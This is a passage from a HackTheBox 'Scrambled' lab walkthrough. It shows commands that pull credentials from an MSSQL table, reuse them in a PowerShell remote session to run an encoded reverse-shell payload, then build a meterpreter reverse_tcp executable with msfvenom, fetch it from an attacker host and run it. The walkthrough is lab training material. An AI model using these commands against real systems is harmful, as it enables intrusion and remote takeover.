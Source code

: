 ```powershell
Get-SQLQuery -Verbose -Instance DC1 -Query "SELECT * FROM ScrambleHR.dbo.UserImport"
```

![miscsvc credentials](/assets/hackthebox/scrambled/miscsvc_credentials.png)

And we've got some credentials. Now we can authenticate as `miscsvc` user in our powershell session. I did a reverse shell as miscsvc user here.

```powershell
$password = ConvertTo-SecureString "<miscsvc password>" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ("scrm.local\miscsvc", $password)
$sess = New-PSSession -Credential $cred -ComputerName DC1
Invoke-Command -Session $sess -ScriptBlock {powershell -e <Base64 encoded payload>}
```

![Got user!](/assets/hackthebox/scrambled/got_user.png)

But I've decided to get more cool Metasploit `meterpreter` shell. So I made an executable with `msfvenom` tool and setted up a listener in msfconsole.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o meterpreter.exe
msfconsole -q
set payload windows/x64/meterpreter/reverse_tcp
set lhost <IP>
set lport <PORT>
run -j
```

Then, I've downloaded and executed it as miscsvc user.

```powershell
wget -Uri "http://<IP>:<PORT>/meterpreter.exe" -OutFile meterpreter.exe
./meterpreter.exe
```
